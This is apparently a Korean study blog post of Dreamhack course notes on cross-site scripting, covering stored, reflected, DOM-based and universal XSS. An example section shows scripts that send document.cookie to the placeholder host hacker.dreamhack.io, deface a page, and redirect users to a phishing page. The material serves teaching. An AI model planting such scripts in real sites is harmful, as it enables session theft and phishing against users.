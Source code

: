 ```yaml
---
layout : single
title : "STAGE4. Cross-Site-Scripting(XXS) (1)"
categories: Security
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```

# 드림핵 웹 Cross-Site-Scripting (XXS)
\* Cross Site Scripting의 약어는 CSS가 되는 것이 맞으나, 스타일 시트 정의 언어 CSS와의 중복으로, 혼동될 수 있어 XSS로 명명됨<br><br>
클라이언트 사이드의 취약점 : 웹 페이지의 이용자를 대상으로 공격할 수 있는 취약점으로, 이를 통해 이용자를 식별하기 위한 세션 및 쿠키 정보를 탈취하여 해당 계정으로 임의의 기능을 수행할 수 있다.

## XSS
클라이언트 사이드 취약점 중 하나로, 공격자가 웹 리소스에 오리진 권한으로 악성 스크립트를 삽입하여 웹 브라우저에서 해당 스크립트를 실행할 수 있다. SOP 보안 정책이 등장하며 서로 다른 오리진에서 정보를 읽는 행위가 어려워졌지만, 이를 우회하는 다양한 기술이 등장하며 XSS 공격은 지속되고 있다.


|XSS|Description|
|:------:|:---|
|Stored XSS|XSS에 사용되는 악성 스크립트가 서버에 저장되며, 서버에 응답에 담겨옴|
|Reflected XSS|XSS에 사용되는 악성 스크립트가 URL에 삽입되어 서버의 응답에 담겨옴|
|DOM-based XSS|XSS에 사용되는 악성 스크립트가 URL Fragment에 삽입됨 (Fragment는 서버 요청/응답에 포함되지 않음)|
|Universal XSS|클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점으로 SOP 정책을 우회함|

### 공격 코드 예시

**쿠키 및 세션 탈취 공격 코드*
```html
<script>
// "hello" 문자열 alert 실행.
alert("hello");
// 현재 페이지의 쿠키(return type: string)
document.cookie; 
// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);
// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";
// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

**페이지 변조 공격 코드*
```html
<script>
// 이용자의 페이지 정보에 접근.
document;
// 이용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```

**위치 이동 공격 코드*
```html
<script>
// 이용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing"; 
// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```

## Stored XSS
서버의 데이터베이스 또는 파일 등의 형태로 저장된 악성 스크립트를 조회할 때 발생하는 XSS (게시물과 댓글에 악성 스크립트를 포함해 업로드)로, 이는 불특정 다수에게 보여지기 때문에 XSS 취약점이 존재할 경우 높은 파급력을 지닌다.

## Reflected XSS
서버가 악성 스크립트가 담긴 요청을 출력할 때 (게시판 서비스에서 작성된 게시물을 조회하기 위한 검색창에서 스크립트를 포함하여 검색) 발생한다.<br><br>
Stored XSS와 다르게, URL과 같은 이용자의 요청에 의해 발성하며, 공격을 위해서는 타 이용자가 악성 스크립트가 포함된 링크에 접속하도록 유도해야한다. 이 때, 주로 Click jacking 또는 Open Redirect 등 다른 취약점과 연계하여 사용한다.

## DOM(Document Object Model) based XSS
DOM은 HTML 및 XML 문서에 접근하는 방법을 표준으로 정의하는 문서 객체 모델로, 구조화된 문서의 표준 표현 방식이다. DOM based XSS 공격은 서버의 HTTP 응답은 변경하지 않지만, 피해자의 브라우저에서는 공격자가 악의적으로 변조한 DOM 환경으로 인해 공격 구문이 실행된다.(HTTP 응답에는 공격자의 공격 구문이 포함되지 않지만, DOM 객체가 생성될 경우 클라이언트 측 스크립트에 공격 구문이 포함된다) 위의 Stored XSS, Reflected XSS의 경우 서버 측의 결함으로 인해 응답 페이지에 악성 스크립트 구문이 포함되지만, DOM based XSS의 경우, 서버와 관계 없이 브라우저에서 발생한다. 
<br>

참고 : [link](https://ddungkill.tistory.com/135)

## Universal XSS
UXSS는 블특정한 사이트에서 발생 가능한 XSS로, 보통 웹보다는 모바일 앱, 네이티브 앱에서 발생하며, 예시로는 모바일 앱의 웹뷰 자체에서 발생하는 XSS로 인해 도메인과 관계 없이 정보를 탈취하는 것 등이 있다.

### 실습
-  [x]  XSS 발생 예시와 종류
-  [x]  Stored XSS
-  [x]  Reflected XSS